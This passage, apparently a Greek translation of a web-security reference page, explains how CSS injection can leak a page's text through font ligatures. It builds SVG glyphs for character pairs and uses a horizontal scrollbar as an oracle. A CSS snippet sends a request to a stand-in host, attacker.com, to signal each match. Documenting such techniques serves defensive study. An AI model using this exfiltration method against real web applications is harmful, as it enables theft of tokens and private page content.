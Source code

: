 ### Εξαγωγή κόμβου κειμένου (I): λυγισμοί <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Αναφορά:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

Η τεχνική που περιγράφεται περιλαμβάνει την εξαγωγή κειμένου από έναν κόμβο εκμεταλλευόμενη τους λυγισμούς γραμματοσειρών και παρακολουθώντας τις αλλαγές στο πλάτος. Η διαδικασία περιλαμβάνει αρκετά βήματα:

1. **Δημιουργία Προσαρμοσμένων Γραμματοσειρών**:

- Οι γραμματοσειρές SVG κατασκευάζονται με γλυφές που έχουν το χαρακτηριστικό `horiz-adv-x`, το οποίο ορίζει ένα μεγάλο πλάτος για μια γλυφή που αντιπροσωπεύει μια ακολουθία δύο χαρακτήρων.
- Παράδειγμα γλυφής SVG: `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, όπου "XY" δηλώνει μια ακολουθία δύο χαρακτήρων.
- Αυτές οι γραμματοσειρές στη συνέχεια μετατρέπονται σε μορφή woff χρησιμοποιώντας το fontforge.

2. **Ανίχνευση Αλλαγών Πλάτους**:

- Χρησιμοποιείται CSS για να διασφαλιστεί ότι το κείμενο δεν τυλίγεται (`white-space: nowrap`) και για να προσαρμοστεί το στυλ της γραμμής κύλισης.
- Η εμφάνιση μιας οριζόντιας γραμμής κύλισης, που έχει στυλ διαφορετικό, λειτουργεί ως δείκτης (oracle) ότι μια συγκεκριμένη λυγισμός, και επομένως μια συγκεκριμένη ακολουθία χαρακτήρων, είναι παρούσα στο κείμενο.
- Η CSS που εμπλέκεται:
```css
body {
white-space: nowrap;
}
body::-webkit-scrollbar {
background: blue;
}
body::-webkit-scrollbar:horizontal {
background: url(http://attacker.com/?leak);
}
```

3. **Διαδικασία Εκμετάλλευσης**:

- **Βήμα 1**: Δημιουργούνται γραμματοσειρές για ζεύγη χαρακτήρων με σημαντικό πλάτος.
- **Βήμα 2**: Χρησιμοποιείται ένα κόλπο βασισμένο στη γραμμή κύλισης για να ανιχνευθεί πότε η γλυφή μεγάλου πλάτους (λυγισμός για ένα ζεύγος χαρακτήρων) αποδίδεται, υποδεικνύοντας την παρουσία της ακολουθίας χαρακτήρων.
- **Βήμα 3**: Με την ανίχνευση ενός λυγισμού, δημιουργούνται νέες γλυφές που αντιπροσωπεύουν ακολουθίες τριών χαρακτήρων, ενσωματώνοντας το ανιχνευθέν ζεύγος και προσθέτοντας έναν προηγούμενο ή επόμενο χαρακτήρα.
- **Βήμα 4**: Η ανίχνευση του λυγισμού τριών χαρακτήρων πραγματοποιείται.
- **Βήμα 5**: Η διαδικασία επαναλαμβάνεται, αποκαλύπτοντας σταδιακά ολόκληρο το κείμενο.

4. **Βελτιστοποίηση**:
- Η τρέχουσα μέθοδος αρχικοποίησης που χρησιμοποιεί `<meta refresh=...` δεν είναι βέλτιστη.
- Μια πιο αποδοτική προσέγγιση θα μπορούσε να περιλαμβάνει το κόλπο CSS `@import`, βελτιώνοντας την απόδοση της εκμετάλλευσης.
